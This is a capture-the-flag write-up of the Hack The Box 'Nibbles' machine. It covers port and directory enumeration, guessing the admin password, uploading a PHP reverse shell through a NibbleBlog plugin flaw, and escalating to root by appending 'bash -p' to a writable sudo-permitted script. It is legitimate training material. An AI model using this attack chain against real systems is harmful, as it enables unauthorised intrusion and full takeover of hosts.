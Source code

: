 # Nibbles

[Nibbles](https://app.hackthebox.com/machines/Nibbles) is an easy machine which focuses a bit on enumeration and a slightly different method for privilege escalation. 

So, let's begin!

## Enumeration

The first to be done would be to determine the ports that are open on the machine.

```
┌──(kali㉿kali)-[~/Desktop/htb/nibbles]
└─$ sudo nmap -p- -sS -T4 -oG open_ports 10.10.10.75     
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-21 15:45 EDT
Nmap scan report for 10.10.10.75
Host is up (0.28s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 919.59 seconds
```

It can be seen that only ports 22 and 80 are open. So, we can go ahead and check if we can access the website on port 80.

![image-20220822000803793](.images/image-20220822000803793.png)

It can be seen that there is nothing except for "Hello world!" on the page but if we check the source-code then we can see that it mentions another directory `/nibbleblog`.

![image-20220822001019598](.images/image-20220822001019598.png)

When we go to the `/nibbleblog` directory we can see that it looks like a blog and is built up on something called as "Nibbleblog". But there is not much to this so we can start a directory brute-force scan against this path.

```
┌──(kali㉿kali)-[~/Desktop/htb/nibbles]
└─$ ffuf -u http://10.10.10.75/nibbleblog/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.75/nibbleblog/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

.hta                    [Status: 403, Size: 301, Words: 22, Lines: 12]
.htaccess               [Status: 403, Size: 306, Words: 22, Lines: 12]
.htpasswd               [Status: 403, Size: 306, Words: 22, Lines: 12]
README                  [Status: 200, Size: 4628, Words: 589, Lines: 64]
admin                   [Status: 301, Size: 321, Words: 20, Lines: 10]
admin.php               [Status: 200, Size: 1401, Words: 79, Lines: 27]
content                 [Status: 301, Size: 323, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 2987, Words: 116, Lines: 61]
languages               [Status: 301, Size: 325, Words: 20, Lines: 10]
plugins                 [Status: 301, Size: 323, Words: 20, Lines: 10]
themes                  [Status: 301, Size: 322, Words: 20, Lines: 10]
:: Progress: [4713/4713] :: Job [1/1] :: 416 req/sec :: Duration: [0:00:11] :: Errors: 0 ::
```

We can check each directory and page that was detected in this scan. To begin, we can take a look at README.

![image-20220822002352218](.images/image-20220822002352218.png)

Using the version number we can google for exploits specific to this version.

## Gaining Foothold

We can find a [Shell Upload](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html) exploit but for that we need admin access. This indicates that we need to gain access through the `admin.php` page. We don't have the credentials but we can check the files in `/content` and `/admin` to see if we can find something interesting.

![image-20220822002801316](.images/image-20220822002801316.png)

We don't find any exact credentials but from the file `/nibbleblog/content/private/users.xml` we can confirm that an account with username `admin` does exist. Also, it looks like they have some kind of mechanism to protect against password brute-forcing so we need to manually guess some password to login.

We can try combinations like `admin:admin`, `admin:pass`, `admin:password` and a few others. But finally the one that works is `admin:nibbles`.

Now that we have access as admin, we can upload the reverse shell through the "My image" plugin as explained in the exploit. We can use a the [PentesterMonkey's PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) payload. All that needs to be done is just add our own IP address and change the port if required.

![image-20220822003845274](.images/image-20220822003845274.png)

Once the php file is uploaded, it might throw some errors but they can be ignored. To confirm that our payload has been uploaded, we can check it in the directory: `/nibbleblog/content/private/plugins/my_image/`.

![image-20220822004059550](.images/image-20220822004059550.png)

It can be seen that it was uploaded as `image.php`. Before accessing the file make sure to start a listener using the command `nc -nlvp 1234` to catch the reverse shell.

```
┌──(kali㉿kali)-[~/Desktop/htb/nibbles]
└─$ nc -nlvp 1234                                                                                     
listening on [any] 1234 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.75] 35516
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 03:41:54 up 11:58,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler
$ pwd
/
```

By opening the PHP file, we get our reverse shell as user `nibbler` through which we can even read the user flag.

## Privilege Escalation

The next task is to escalate our privileges and become root. To do this, the first thing that we can check would be the commands that we can run as root or any other user.

```
$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Looks like we can run a specific shell script as root. So, if we can modify the content of that script in some way then we pop a shell as root. But in the user's directory we can't find that script.

```
$ ls -la
total 20
drwxr-xr-x 3 nibbler nibbler 4096 Aug 22 03:45 .
drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
-rw------- 1 nibbler nibbler    0 Dec 29  2017 .bash_history
drwxrwxr-x 2 nibbler nibbler 4096 Dec 10  2017 .nano
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Aug 21 15:44 user.txt
```

Though there is a zip file which can try to extract.

```
$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
$ cd personal
$ cd stuff
$ ls -la
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

We can find the `monitor.sh` script in there and looks like we have write access to that file. So, we can just add a command like `bash -p` at the end of the script and then when we run it as root it should give us root's shell.

```
$ echo "bash -p" >> monitor.sh
$ sudo -u root ./monitor.sh
whoami
root
cd /root
pwd
/root
```

And there we get the root access!

## Some Key Points to Take Away

1. Use the Seclist Web Discovery wordlist whenever you are enumerating a website.
2. When guessing password, think about the application name, machine and any other associated details.

## References

1. [Nibbles](https://app.hackthebox.com/machines/Nibbles)
2. [Nibble Shell Upload Vulnerability](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html)
3. [PentesterMonkey's PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)